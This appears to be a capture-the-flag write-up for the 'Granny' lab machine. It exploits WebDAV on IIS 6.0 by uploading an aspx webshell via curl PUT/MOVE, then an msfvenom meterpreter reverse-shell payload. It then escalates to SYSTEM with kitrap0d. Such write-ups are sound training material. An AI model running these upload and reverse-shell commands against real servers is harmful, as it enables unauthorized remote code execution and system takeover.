






# Granny

### Reconnaissance

- port 80/tcp HTTP Microsoft IIS httpd 6.0

nmap service scans show the target is vulnerable to uploads through WebDAV



We can test which file types can be uploaded with `davtest`

`davtest -url http://10.10.10.15`



Or manually with curl

`curl -X PUT http://10.10.10.15/test.txt -d @test.txt`



### Exploitation

We can upload an aspx webshell as a text file with PUT, then use MOVE to change it back to an .aspx file

```
curl -X PUT http://10.10.10.15/cmd.txt -d @cmdasp.aspx
curl -X MOVE -H 'Destination:http://10.10.10.15/cmd.aspx' http://10.10.10.15/cmd.txt
```

This gives us RCE on the target



We need a proper shell on the target, uploading nc.exe didn't work so we can use an .aspx meterpreter shell
and upload it in the same way as the webshell

We need to use `--data-binary` for the PUT command as the file formatting gets ruined otherwise

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=443 -f aspx -o met.aspx
curl -X PUT http://10.10.10.15/met.txt --data-binary @met.aspx
curl -X MOVE -H 'Destination:http://10.10.10.15/met.aspx' http://10.10.10.15/met.txt
```

Starting a multi/handler and executing the .aspx gives us a meterpreter shell

### Privilege Escalation

Enumeration shows the target is a Windows Server 2003, so likely vulnerable to a kernel exploit

The local_exploit_suggester module shows the target is vulnerable to kitrap0d and a few other exploits



Running kitrap0d gives us a System shell


